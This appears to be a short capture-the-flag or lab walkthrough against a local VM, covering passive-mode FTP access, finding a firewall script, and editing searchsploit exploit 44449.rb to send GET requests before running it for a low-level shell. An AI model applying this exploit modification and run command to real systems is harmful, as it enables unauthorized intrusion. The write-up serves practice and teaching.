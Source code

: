 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553556158372_image.png)


FTP server:
Needed to enter with passive mode -p

    ftp -p 192.168.56.118

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558253976_image.png)


Discovered WELCOME file along with firewall.sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558289970_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553558314960_image.png)


if we can get to the box and see if this firewall is on a crontab or SUID we might be able to modify this in a way to get access to high privilege in the future.


Returning back to searchploit `44449.rb` after investigating a bit into the code I realized the code was set for POST instead of GET. Sifting through the code modifications were made to:

added function:

    def http_get(url, payload="")
      uri = URI(url)
      request = Net::HTTP::Get.new(uri.request_uri)
      request.initialize_http_header({"User-Agent" => $useragent})
      request.body = payload
      return $http.request(request)
    end


changed:

    # Check all
    url.each do|uri|
      # Check response
      response = http_get(uri)
    

Execute exploit

    ruby 44449.rb http://192.168.56.118:8000/

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553559079299_image.png)


we have a low level shell at this point!

Some things we know:

  - Box is behind a firewall
  - We have a low level shell
  - We want to upgrade
